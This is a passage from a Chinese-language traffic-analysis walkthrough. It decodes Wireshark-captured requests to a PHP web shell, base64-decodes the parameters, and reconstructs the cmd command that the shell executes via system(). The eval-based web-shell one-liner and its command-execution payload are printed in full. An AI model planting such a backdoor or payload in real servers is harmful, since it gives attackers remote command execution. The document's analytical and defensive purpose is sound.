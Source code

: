 5.Wireshark复制出来的是还没经过URL解码的，解码看一下：

```
abcd=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1p
dCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk\
7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdK
TskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4m
MSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=&z1=Y21k&z2=Y2Q
gL2QgIkM6XHBocFN0dWR5XFBIUFR1dG9yaWFsXFdXV1wiJmNhbGMmZWNobyBbU10mY2QmZWNobyBbRV0=
```

6.好像看到了z0、z1、z2三个变量？整理一下：

```
abcd=@eval(base64_decode($_POST[z0]));
&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50a
W1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbIn
oyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyB
cInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIK
cmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=
&z1=Y21k
```

7.看起来z0、z1、z2三个变量的值经过Base64编码了，解一下码看看：

```php
abcd=@eval(base64_decode($_POST[z0]));
&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("-
>|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$
c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();
&z1=cmd
&z2=cd /d "C:\phpStudy\PHPTutorial\WWW\"&calc&echo [S]&cd&echo [E]
```

8.整理一下，把图片保存下来看更清晰：

![](./10.png)
&z2经过上面的判断处理后成为:

```shell
/c &cd /d "C:\phpStudy\PHPTutorial\WWW\"&calc&echo [s]&cd&echo [E]
```

&amp;z1和&amp;z2拼接起来后是一条完整的CMD命令:

```shell
cmd /c &cd /d "C:\phpStudy\PHPTutorial\WWW\"&calc&echo [s]&cd&echo [E]
```
